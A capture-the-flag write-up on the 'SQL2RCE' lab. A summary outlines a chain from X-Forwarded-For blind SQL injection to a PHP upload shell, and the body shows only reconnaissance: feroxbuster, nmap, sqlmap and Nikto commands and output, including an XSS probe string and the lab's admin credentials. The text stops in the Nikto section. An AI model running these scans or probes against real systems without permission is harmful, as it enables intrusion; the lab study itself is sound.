# SQL2RCE — CTF Writeup

## 1. Identification

| Field        | Value                                                                 |
|--------------|-----------------------------------------------------------------------|
| Challenge    | SQL2RCE / SQLI2RCE                                                     |
| Context      | CTF used in a job interview in Portugal; original CTF published in 2013 |
| Target IP    | `10.0.0.27`                                                            |
| Web stack    | `nginx/0.7.67`, `PHP/5.3.3-7+squeeze15`, MySQL                         |
| Main vector  | Time-based blind SQL injection through the `X-Forwarded-For` header    |
| Credentials  | `admin:P4ssw0rd`                                                       |
| RCE path     | Admin upload → PHP payload hidden in `.jpg` → path-info execution      |

Chain in one line: web enumeration → suspicious `id=` parameters → login and directory enumeration → time-based blind SQL injection in `X-Forwarded-For` → dump `photoblog.users` → `admin:P4ssw0rd` → admin upload → PHP payload in image → `www-data` RCE → flag in the user folder.

## 2. Introduction

Here we go again, ladies and gentlemen, for one more hard CTF... and this one is different because it was used in an actual job interview in Portugal by someone I know, Thiago Fonseca from the Hack na Tuga YouTube channel.

The original CTF was published in 2013, so after the interview he managed to obtain it, and here we are.

So, without more talking, let's get ready to rumble...

## 3. Initial Web Access

First, we go to the IP address in the browser and land on a very blank page with a funny drawing of what is supposed to be Cthulhu in a very cartoonish way.

Figure 1 — Initial landing page.



Visually, it is a photo blog, where the owner posts a lot of interesting things like random profile pictures and icons from 2000s forums.

While exploring the site, one thing immediately calls my attention: the `id=` field changes according to the page that we access. If we access the `test` page, we get ID `1`; if we access `ruxcon` (whatever this is supposed to mean), we get ID `2`, and so on.

This could potentially mean that we can access an admin page or a restricted page that we are not supposed to access by changing the ID. Or maybe we can run some SQL tools to see if this parameter is vulnerable to SQL injection attacks.

Figure 2 — Page enumeration through visible IDs.



Figure 3 — URL/parameter detail during browsing.



Figure 4 — Another page reached through the application navigation.



Figure 5 — Another page reached through the application navigation.



The only page that really differs from the others is the one we access when we click the login field in the main menu. We get redirected to the page below.

Figure 6 — Admin login page.



## 4. Directory Enumeration

After that, as usual, our reconnaissance phase is not finished yet, and we run our fast old pal to find unknown directories: ~~gobuster~~... feroxbuster.

```bash
feroxbuster -u http://10.0.0.27/ -w /usr/share/seclists/Discovery/Web-Content/big.txt --extract-links -C 404
```

```text
┌──(mr_blue㉿mrbluemachine)-[~/Área de Trabalho/psouza]
└─$ feroxbuster -u http://10.0.0.27/ -w /usr/share/seclists/Discovery/Web-Content/big.txt --extract-links -C 404

___  ___  __   __     __      __        __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                ver: 2.13.1
───────────────────────────┬──────────────────────
🎯  Target Url            │ http://10.0.0.27/
🚩  In-Scope Url          │ 10.0.0.27
🚀  Threads               │ 50
📖  Wordlist              │ /usr/share/seclists/Discovery/Web-Content/big.txt
💢  Status Code Filters   │ [404]
💥  Timeout (secs)        │ 7
🦡  User-Agent            │ feroxbuster/2.13.1
💉  Config File           │ /etc/feroxbuster/ferox-config.toml
🔎  Extract Links         │ true
🏁  HTTP methods          │ [GET]
🔃  Recursion Depth       │ 4
───────────────────────────┴──────────────────────
🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
404      GET        7l       12w      169c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
403      GET        7l       10w      169c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
200      GET       71l      105w     1367c http://10.0.0.27/index.php
200      GET       94l      141w     1982c http://10.0.0.27/all.php
302      GET        0l        0w        0c http://10.0.0.27/admin/ => http://10.0.0.27/admin/login.php
301      GET        7l       12w      185c http://10.0.0.27/admin => http://_/admin/
200      GET       90l      134w     1821c http://10.0.0.27/cat.php
200      GET      244l      441w     3172c http://10.0.0.27/css/default.css
200      GET      113l      643w    49629c http://10.0.0.27/admin/uploads/cthulhu.png
200      GET       71l      105w     1367c http://10.0.0.27/
301      GET        7l       12w      185c http://10.0.0.27/classes => http://_/classes/
301      GET        7l       12w      185c http://10.0.0.27/css => http://_/css/
200      GET       77l      354w    26426c http://10.0.0.27/favicon.ico
301      GET        7l       12w      185c http://10.0.0.27/images => http://_/images/
[####################] - 38s    20493/20493   0s     found:12      errors:0
[####################] - 37s    20482/20482   556/s  http://10.0.0.27/
```

After getting this result, I try to access every single one of them in the browser. The one that looks more promising is `classes`, because it is very common to find exposed database-related server files there.

We will go further in the enumeration of `classes` later. For now, it is important to explore the site more and do some basic reconnaissance.

I decide to see if there is any path traversal available and if we can get to the server's root directory using the old `../../` stuff.

Figure 7 — Path traversal test.



Figure 8 — Access control response while browsing directories.



I started by decreasing the directory number one by one to see if any directory was really accessible, like `admin/uploads`, but I had no authorization to do so.

However, we get the kind of server that is running on the site without running any `curl -I`: we now know that our target is running on `nginx/0.7.67`.

## 5. Login Request Analysis

After that, I started to study how the authentication process is made on the login page by intercepting the HTTP packets with Burp Suite Proxy.

Figure 9 — Login request in Burp Suite.



The result is shown below:

```http
POST /admin/index.php
HTTP/1.1 Host: 10.0.0.27
Content-Length: 29
Cache-Control: max-age=0
Accept-Language: pt-PT,pt;q=0.9
Origin: http://10.0.0.27
Content-Type: application/x-www-form-urlencoded Upgrade-Insecure-Requests: 1 User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/146.0.0.0 Safari/537.36 Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,/;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://10.0.0.27/admin/login.php
Accept-Encoding: gzip, deflate, br
Cookie: PHPSESSID=jflp99uoig4b5q9hpa2h7ouls4
Connection: keep-alive

user=cxxzczx&password=czxzxcz
```

We now know there is a `PHPSESSID` cookie validating the user's session, and there is no IDOR or any other field apparently in the packet that we could explore to try to access as admin.

So I send exactly the packet above directly to sqlmap so we can see if the login fields are vulnerable to SQL attacks.

Figure 10 — sqlmap test against the login request.



While sqlmap is running, I do something that should have been done before even trying to check vulnerabilities: run `nmap`.

```bash
sudo nmap -sS -sV -O 10.0.0.27 -disable-arp-ping --script= banner -T4 --stats-every=5s
```

```text
┌──(mr_blue㉿mrbluemachine)-[~/Área de Trabalho/psouza]
└─$ sudo nmap -sS -sV -O 10.0.0.27 -disable-arp-ping --script= banner -T4 --stats-every=5s
[sudo] senha para mr_blue:
Starting Nmap 7.99 ( https://nmap.org ) at 2026-06-20 17:53 +0100
Failed to resolve "banner".
Stats: 0:00:08 elapsed; 0 hosts completed (0 up), 1 undergoing Ping Scan
Ping Scan Timing: About 100.00% done; ETC: 17:53 (0:00:00 remaining)
Stats: 0:00:10 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 46.95% done; ETC: 17:53 (0:00:01 remaining)
Stats: 0:00:16 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 0.00% done
Stats: 0:00:30 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 0.00% done
Stats: 0:00:30 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 50.00% done; ETC: 17:54 (0:00:00 remaining)
Nmap scan report for 10.0.0.27
Host is up (0.086s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    nginx 0.7.67
|_http-server-header: nginx/0.7.67
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.99%E=4%D=6/20%OT=80%CT=1%CU=38813%PV=Y%DS=2%DC=I%G=Y%TM=6A36C5B
OS:8%P=x86_64-pc-linux-gnu)SEQ(SP=102%GCD=1%ISR=105%TI=Z%TS=8)SEQ(SP=102%GC
OS:D=1%ISR=10E%TI=Z%TS=8)SEQ(SP=105%GCD=1%ISR=105%TI=Z%II=I%TS=8)SEQ(SP=105
OS:%GCD=1%ISR=108%TI=Z%II=I%TS=8)SEQ(SP=105%GCD=1%ISR=10E%TI=Z%II=I%TS=8)OP
OS:S(O1=M578ST11NW6%O2=M578ST11NW6%O3=M578NNT11NW6%O4=M578ST11NW6%O5=M578ST
OS:11NW6%O6=M578ST11)WIN(W1=16A0%W2=16A0%W3=16A0%W4=16A0%W5=16A0%W6=16A0)EC
OS:N(R=Y%DF=Y%T=40%W=16D0%O=M578NNSNW6%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=
OS:AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=N)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD
OS:=0%Q=)T6(R=N)T7(R=N)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%R
OS:UCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 2 hops

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 31.19 seconds
```

I also made requests manually to see if they had any significant difference in size, as shown by Burp below.

Figure 11 — Manual request comparison in Burp.



After that, our sqlmap scan finally ended and... the result, for our sadness, is that it does not seem to be injectable.

Figure 12 — sqlmap result.



Figure 13 — sqlmap result continuation.



## 6. Nikto and Header-Based Ideas

After that, I ran our old Swiss Army knife web application vulnerability finder, Nikto, and it showed a lot of interesting stuff, like missing security headers and a possible vulnerability to XSS.

```bash
nikto -h http://10.0.0.27/
```

```text
┌──(mr_blue㉿mrbluemachine)-[~/Área de Trabalho/psouza]
└─$ nikto -h http://10.0.0.27/
- Nikto v2.6.0
---------------------------------------------------------------------------
+ Target IP:          10.0.0.27
+ Target Hostname:    10.0.0.27
+ Target Port:        80
+ Platform:           Unknown
+ Start Time:         2026-06-20 18:46:38 (GMT1)
---------------------------------------------------------------------------
+ Server: nginx/0.7.67
+ ERROR: Failed to check for updates: 403
+ [999986] /: Retrieved x-powered-by header: PHP/5.3.3-7+squeeze15.

+ No CGI Directories found (use '-C all' to force check all possible dirs). CGI tests skipped.
+ [600625] PHP/5.3.3-7+squeeze15 appears to be outdated (current is at least 8.5.1).
+ [013587] /: Suggested security header missing: x-content-type-options. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Content-Type-Options
+ [013587] /: Suggested security header missing: permissions-policy. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Permissions-Policy
+ [013587] /: Suggested security header missing: content-security-policy. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP
+ [013587] /: Suggested security header missing: strict-transport-security. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Strict-Transport-Security
+ [013587] /: Suggested security header missing: referrer-policy. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Referrer-Policy
+ [95] /admin/login.php?path=\"></form><form%20name=a><input%20name=i%20value=XSS>&lt;script>alert('Vulnerable')</script>: Cookie PHPSESSID created without the httponly flag. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Cookies
+ [001086] /admin/login.php?action=insert&username=test&password=test: phpAuction may allow user admin accounts to be inserted without proper authentication. Attempt to log in with user 'test' password 'test' to verify. See: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2002-0995
+ [001384] /?=PHPB8B5F2A0-3C92-11d3-A3A9-4C7B08C10000: PHP Easter Eggs reveals potentially sensitive information via HTTP requests that contain specific QUERY strings. See: https://labs.detectify.com/writeups/do-you-dare-to-show-your-php-easter-egg/
+ [001385] /?=PHPE9568F36-D428-11d2-A769-00AA001ACF42: PHP Easter Egg reveals potentially sensitive information via HTTP requests that contain specific QUERY strings. See: https://labs.detectify.com/writeups/do-you-dare-to-show-your-php-easter-egg/
+ [001386] /?=PHPE9568F34-D428-11d2-A769-00AA001ACF42: PHP Easter Egg reveals potentially sensitive information via HTTP requests that contain specific QUERY strings. See: https://labs.detectify.com/writeups/do-you-dare-to-show-your-php-easter-egg/
